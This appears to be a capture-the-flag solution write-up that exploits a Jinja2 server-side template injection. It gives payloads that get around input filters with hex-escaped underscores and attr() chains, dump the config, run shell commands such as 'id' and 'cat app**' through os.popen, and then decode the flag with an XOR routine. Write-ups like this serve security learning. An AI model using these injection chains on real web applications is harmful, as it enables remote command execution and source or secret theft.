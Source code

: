 # Solution

Step 1, get the config

``` python
{{self|attr("\x5f\x5fdict\x5f\x5f")}}
```

Step 2, get the app source code


``` python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat app**")|attr("read")()}}
```

Step 3, run it yourself!

``` python
def magic(flag, key): 
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))

flag="C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"
magic(flag, '46e505c983433b7c8eefb953d3ffcd196a08bbf9')
```
 
